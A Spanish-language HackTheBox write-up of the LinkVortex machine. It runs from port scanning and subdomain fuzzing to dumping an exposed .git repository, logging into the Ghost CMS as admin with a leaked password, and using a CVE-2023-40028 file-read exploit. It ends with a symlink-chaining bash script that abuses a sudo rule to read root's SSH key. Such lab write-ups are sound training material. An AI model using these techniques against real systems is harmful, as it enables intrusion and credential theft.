

# Tutorial de LinkVortex de HackTheBox en Español


Empezamos la máquina como siempre con un análisis de todos los puertos por TCP.

```
nmap -p- -sS -Pn -n --min-rate 5000 10.129.231.194

Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Vemos que los puertos abiertos son el `22` y el `80`. Vamos a hacer un análisis más exaustivo de estos dos para comprobar que servicios y versiones están corriendo en ellos.

```
nmap -p 22,80 -sVC 10.129.231.194 -oN services.txt

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:f8:b9:68:c8:eb:57:0f:cb:0b:47:b9:86:50:83:eb (ECDSA)
|_  256 a2:ea:6e:e1:b6:d7:e7:c5:86:69:ce:ba:05:9e:38:13 (ED25519)
80/tcp open  http    Apache httpd
|_http-server-header: Apache
|_http-title: Did not follow redirect to http://linkvortex.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Están corriendo los servicios `SSH` (en el puerto `22`) y `HTTP` (en el `80`). Sin embargo en el puerto `80` nos da el error: `Did not follow redirect to http://linkvortex.htb/`, esto se debe a que nuestro equipo no sabe que dirección es `linkvortex.htb`. Para que la reconozca tenemos que incluirla en el `/etc/hosts`:

```
echo "10.129.231.194 linkvortex.htb" >> /etc/hosts
```

Tras un reconocimiento básico, vamos a entrar a la página en busca de vulnerabilidades.


Como a priori no encontramos nada interesante, vamos a intentar enumerar subdominios mediante fuzzing.

```
ffuf -c -u http://linkvortex.htb -H 'Host: FUZZ.linkvortex.htb' -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -t 200 --ic --fs 230

dev                     [Status: 200, Size: 2538, Words: 670, Lines: 116, Duration: 50ms]
```

Parece que hay un subdominio `dev`. Vamos a incluirlo también en el `/etc/hosts` y a adentrarnos a inspeccionarlo.

```
echo "10.129.231.194 dev.linkvortex.htb" >> /etc/hosts
```


Como no encontramos nada que pueda ser vulnerable, y al enumerar directorios tampoco, vamos a enumerar directorios ocultos (empezando por `.`).

```
ffuf -c -u http://dev.linkvortex.htb/.FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 --ic

git                     [Status: 301, Size: 239, Words: 14, Lines: 8, Duration: 46ms]
```

Hay un directorio `git`, lo que podría exponer el código fuete de la página.

```
git clone https://github.com/arthaud/git-dumper.git
cd git-dumper
```

Para descargarnoslo, vamos a utilizar la herramienta `git-dumper`.

```
python -m venv venv
venv/bin/pip install -r ./requirements.txt
venv/bin/python git_dumper.py http://dev.linkvortex.htb/.git ../repo
```

Buscando en el repositorio, encontramos archivos que podrían servirnos para un futuro como `Dockerfile.ghost`.

```
FROM ghost:5.58.0

# Copy the config
COPY config.production.json /var/lib/ghost/config.production.json

# Prevent installing packages
RUN rm -rf /var/lib/apt/lists/* /etc/apt/sources.list* /usr/bin/apt-get /usr/bin/apt /usr/bin/dpkg /usr/sbin/dpkg /usr/bin/dpkg-deb /usr/sbin/dpkg-deb

# Wait for the db to be ready first
COPY wait-for-it.sh /var/lib/ghost/wait-for-it.sh
COPY entry.sh /entry.sh
RUN chmod +x /var/lib/ghost/wait-for-it.sh
RUN chmod +x /entry.sh

ENTRYPOINT ["/entry.sh"]
CMD ["node", "current/index.js"]
```

Sin embargo no encontramos ninguna credencial expuesta ni nada por el estilo, por lo que vamos a buscar la cadena de texto `password` en todo el repositorio.

```
find . -type f -exec grep 'password' {} +
```

```
./ghost/core/test/unit/api/canary/session.test.js:                password: 'qu33nRul35'
./ghost/core/test/regression/api/admin/authentication.test.js:            const password = 'OctopiFociPilfer45'
./ghost/core/test/regression/api/admin/authentication.test.js:                        password: 'thisissupersafe'
./ghost/core/test/regression/api/admin/authentication.test.js:                        password: 'lel123456'
./ghost/core/test/regression/api/admin/authentication.test.js:                        password: '12345678910'
./ghost/core/test/regression/api/admin/authentication.test.js:                        password: '12345678910'
./ghost/core/test/utils/fixtures/data-generator.js:            password: 'Sl1m3rson99'
./ghost/security/test/tokens.test.js:            password: 'password'
./ghost/security/test/tokens.test.js:            password: '12345678'
./ghost/security/test/tokens.test.js:            password: '123456'
```

Encontramos varias credenciales. Entrando a los archivos uno por uno, nos encontramos en el `/ghost/core/test/regression/api/admin/authentication.test.js` con un email y una contraseña:

```
const email = 'test@example.com';
const password = 'OctopiFociPilfer45';
```

Sin embargo al probar a loguearnos con estas credenciales en el CMS, nos da error, por lo que probamos con `admin@linkvortex.htb` y la misma contraseña `OctopiFociPilfer45`.


Hemos conseguido autenticarnos como `admin` por lo que ya podemos acceder al panel de configuración del CMS.



Para tratar de seguir compromentiendo la máquina, vamos a buscar en internet vulnerabilidades conocidas para la versión de `Ghost 5.58` (la que nos reporta el wappalizer). Una de las que encontramos es [esta](https://github.com/0xyassine/CVE-2023-40028/blob/master/CVE-2023-40028.sh). Nos permite leer archivos de la máquina.

Nos descargamos el exploit.

```
wget https://raw.githubusercontent.com/0xyassine/CVE-2023-40028/refs/heads/master/CVE-2023-40028.sh
```

Cambiamos la url al sitio que estamos auditando.

```
GHOST_URL='http://linkvortex.htb'
```

Y lo ejecutamos proporcionando el usuario y contraseña que hemos descubierto previamente. Vamos a intentar leer el archivo que descubrimos en el dockerfile: `/var/lib/ghost/config.production.json`.

```
./CVE-2023-40028.sh -u 'admin@linkvortex.htb' -p 'OctopiFociPilfer45'

file> /var/lib/ghost/config.production.json

...
"auth": {
    "user": "bob@linkvortex.htb",
    "pass": "fibber-talented-worth"
}
....
```

El archivo tiene unas credenciales. Vamos a intentar conectarnos por `SSH` utilizandolas.

```
ssh bob@linkvortex.htb
bob@linkvortex.htb's password: fibber-talented-worth
```

Hemos conseguido meternos en la máquina víctima como el usuario `bob`. Vamos a listar los comandos que podemos ejecutar a traves de `sudo`.

```
sudo -l

Matching Defaults entries for bob on linkvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty, env_keep+=CHECK_CONTENT

User bob may run the following commands on linkvortex:
    (ALL) NOPASSWD: /usr/bin/bash /opt/ghost/clean_symlink.sh *.png
```

Podemos ejecutar el script `/opt/ghost/clean_symlink.sh` como cualquier usuario. A demás también podemos cambiar la variable de entorno: `CHECK_CONTENT`. Vamos a ver de que se trata el script.

```bash
#!/bin/bash

QUAR_DIR="/var/quarantined"

if [ -z $CHECK_CONTENT ];then
  CHECK_CONTENT=false
fi

LINK=$1

if ! [[ "$LINK" =~ \.png$ ]]; then
  /usr/bin/echo "! First argument must be a png file !"
  exit 2
fi

if /usr/bin/sudo /usr/bin/test -L $LINK;then
  LINK_NAME=$(/usr/bin/basename $LINK)
  LINK_TARGET=$(/usr/bin/readlink $LINK)
  if /usr/bin/echo "$LINK_TARGET" | /usr/bin/grep -Eq '(etc|root)';then
    /usr/bin/echo "! Trying to read critical files, removing link [ $LINK ] !"
    /usr/bin/unlink $LINK
  else
    /usr/bin/echo "Link found [ $LINK ] , moving it to quarantine"
    /usr/bin/mv $LINK $QUAR_DIR/
    if $CHECK_CONTENT;then
      /usr/bin/echo "Content:"
      /usr/bin/cat $QUAR_DIR/$LINK_NAME 2>/dev/null
    fi
  fi
fi
```

Es un script en bash que lee un enlace simbólico de un png y, si `$CHECK_CONTEN` es `true`, muestra su contenido. Algo a tener en cuenta es que bloquea los directorios "peligrosos" `etc` y `root`.

Para bypassear el que sea un png es sendillo, basta con cambiar la extensión del enlace a `.png`. Para bypassear el que no deje leer de rutas "peligrosas", podemos crear un enlace simbolico del enlace simbolico, de esta manera el script no verá que se está apuntando a una ruta peligrosa, sino que verá que se está apuntando al otro enlace.

Para que `$CHECK_CONTENT` siempre sea `true` basta con hacer un `export CHECK_CONTENT=true`, ya que, como hemos visto antes, el `sudo` va a conservar el valor de esta variable de entorno en concreto.

Para automaatizar todo este preceso, podemos crear un simple script en bash como el siguiente:

```bash
#!/bin/bash

path=$1

ln -s "$path" link.png
ln -s "$(pwd)/link.png" link-link.png

export CHECK_CONTENT=true

sudo /usr/bin/bash /opt/ghost/clean_symlink.sh link-link.png

rm link.png link-link.png 2>/dev/null
```

Entonces si queremos leer el `/root/.ssh/id_rsa` para conectarnos por `SSH` como root sin proporcionar contraseña podemos hacer lo siguiente:

```
./exploit.sh /root/.ssh/id_rsa | tail -n +3 > id_rsa_root
chmod 600 id_rsa_root
ssh -i id_rsa_root root@localhost
```

Ya como root podemos leer la flag de `root` y finalizar así la máquina **LinkVortex**.

```
cd
cat root.txt
```

Tras acabar la máquina no olvides eliminar la línea del `/etc/hosts` correspondiente a la máquina para evitar que se acumulen líneas con cada máquina que hagas.

Si te ha parecido útil, considera dejar una estrella al proyecto. Gracias y mucha suerte en tus próximas máquinas ❤️.